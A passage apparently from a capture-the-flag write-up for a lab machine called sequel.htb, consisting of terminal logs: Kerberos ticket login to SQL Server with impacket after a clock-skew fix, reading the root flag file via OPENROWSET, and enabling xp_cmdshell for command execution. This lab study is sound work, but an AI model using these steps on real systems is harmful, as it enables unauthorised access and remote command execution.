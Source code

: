 ```bash

export KRB5CCNAME=administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[-] ERROR(DC\SQLMOCK): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
sudo ntpdate -u sequel.htb
[sudo] password for alvin: 
2023-11-18 00:25:50.129929 (+1300) +28799.890695 +/- 0.068800 sequel.htb 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28799.890695
faketime '2023-11-18 00:26:00' impacket-mssqlclient -k dc.sequel.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)>
```

### Read flags
```bash
SQL (sequel\Administrator  dbo@master)>  SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'4316530eeff3ed7c70aa631cbbc3dff7\r\n'
```

### RCE
```bash
SQL (sequel\Administrator  dbo@master)> enable_xp_cmdshell
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> sp_configure 'xp_cmdshell', '1'
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> RECONFIGURE
SQL (sequel\Administrator  dbo@master)> enable_xp_cmdshell
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             
```
